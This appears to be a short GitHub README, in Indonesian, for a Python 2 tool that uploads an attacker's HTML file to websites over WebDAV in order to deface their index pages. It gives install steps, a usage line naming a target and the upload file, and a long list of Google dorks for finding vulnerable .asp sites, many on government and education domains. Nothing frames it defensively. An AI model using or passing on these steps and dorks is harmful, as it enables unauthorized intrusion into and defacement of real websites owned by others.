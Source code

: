 # webdav
Webdav tebas index

Intallasi

$ apt update && upgrade
$ apt install python2
$ pip2 install urllib3 chardet certifi idna requests
$ apt install openssl curl
$ pkg install libcurl

Usage :
$ python2 webdav.py
python2 webdav.py webtarget.com nama scriptkalian.html

Cari dork vulnnya

inurl:*.edu/*.asp
inurl:.gov.*/*.asp
inurl:*.gov/*.asp
inurl:.org/*.asp
inurl:.ag/*.asp
inurl:.it/*.asp
inurl:.uk/*.asp
inurl:.co.il/*.asp
inurl:.com/*.asp
inurl:.co.id/*.asp
inurl:.ah.cn/*.asp
inurl:.bj.cn/*.asp
inurl:.cq.cn/*.asp
inurl:.fj.cn/*.asp
inurl:.gd.cn/*.asp
inurl:.gs.cn/*.asp
inurl:.gz.cn/*.asp
inurl:.gx.cn/*.asp
inurl:.ha.cn/*.asp
inurl:.hb.cn/*.asp
inurl:.he.cn/*.asp
inurl:.hi.cn/*.asp
inurl:.hl.cn/*.asp
inurl:.hn.cn/*.asp
inurl:.jl.cn/*.asp
inurl:.js.cn/*.asp
inurl:.jx.cn/*.asp
inurl:.ln.cn/*.asp
inurl:.nm.cn/*.asp
inurl:.nx.cn/*.asp
inurl:.qh.cn/*.asp
inurl:.sc.cn/*.asp
inurl:.sd.cn/*.asp
inurl:.sh.cn/*.asp
inurl:.sn.cn/*.asp
inurl:.sx.cn/*.asp
inurl:.tj.cn/*.asp
inurl:.tw.cn/*.asp
inurl:.xj.cn/*.asp
inurl:.xz.cn/*.asp
inurl:.yn.cn/*.asp
inurl:.zj.cn/*.asp
inurl:.ac.cn/*.asp
inurl:.com.cn/*.asp
inurl:.edu.cn/*.asp
inurl:.gov.cn/*.asp
inurl:.net.cn/*.asp
inurl:.org.cn/*.asp
